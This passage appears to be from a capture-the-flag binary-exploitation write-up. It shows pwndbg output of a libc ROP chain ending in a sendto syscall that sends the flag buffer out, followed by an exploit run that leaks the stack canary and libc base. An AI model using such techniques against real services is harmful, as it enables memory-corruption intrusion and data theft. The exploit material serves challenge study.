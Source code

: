 ```
   0x560df4890e78                             ret    
    ↓
   0x7f744ca2a3e5 <iconv+197>                 pop    rdi
   0x7f744ca2a3e6 <iconv+198>                 ret    
    ↓
   0x7f744ca796a2 <printf_positional+5666>    pop    rdx
────────────────────────────────────────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────────────────────────────────────
00:0000│ rsp 0x7f744c1fdaf0 ◂— 0x0
01:0008│     0x7f744c1fdaf8 —▸ 0x560df598b360 —▸ 0x560df594a3c0 ◂— 0x100007fa8d10002
02:0010│     0x7f744c1fdb00 ◂— 0x0
03:0018│     0x7f744c1fdb08 ◂— 0x0
04:0020│     0x7f744c1fdb10 —▸ 0x560df594a3c0 ◂— 0x100007fa8d10002
05:0028│     0x7f744c1fdb18 —▸ 0x7f7444000b70 ◂— 0xc7ccaec0fbfe94bc
06:0030│     0x7f744c1fdb20 ◂— 0x0
07:0038│     0x7f744c1fdb28 ◂— 0x0
──────────────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────────────────────────────────────
 ► 0   0x560df4890e70
   1   0x7f744ca2a3e5 iconv+197
   2   0x7f744ca796a2 printf_positional+5666
   3   0x7f744ca796a2 printf_positional+5666
   4   0x7f744ca796a2 printf_positional+5666
──────────────────────────────────────────────────────────────────────────────────[ THREADS (3 TOTAL) ]──────────────────────────────────────────────────────────────────────────────────
  ► 3   "serendipity_pat" stopped: 0x560df4890e70
    1   "serendipity_pat" stopped: 0x7f744cb1b82d <select+349> 
    2   "serendipity_pat" stopped: 0x7f744cae57f8 <clock_nanosleep@GLIBC_2.2.5+200> 
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> 
```

We finally assigned the respective arguments.

```
 ► 0x7f744cb4101b <__netlink_close+11>        syscall  <SYS_sendto>
        fd: 0xb (socket:[153083])
        buf: 0x7f744cc1a8c8 (buffer) ◂— 'server_flag\n'
        n: 0xc
        flags: 0x0
        addr: 0x560df594a3c0 ◂— 0x100007fa8d10002
        addr_len: 0x10
   0x7f744cb4101d <__netlink_close+13>        ret  
```


Result:
```
╭─    ~/CTF/Pwnable/2023/wc2023/serendipity    master !1 ?38                                                                       1 ✘  w1n_gl0ry@phis1Ng ─╮
╰─ python3 remote.py                                                                                                                                               ─╯
[*] '/home/w1n_gl0ry/CTF/Pwnable/2023/wc2023/serendipity/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 0 on port 9981: Done
bc94fefbc0aeccc762678d353d911917c32ce5266a0df70afd4bef072fb147ec
b'auth successfully\n'
[*] canary: 0x63648f5a8f209500
[*] libc.address: 0x7f744ca00000
[*] Paused (press any to continue)
```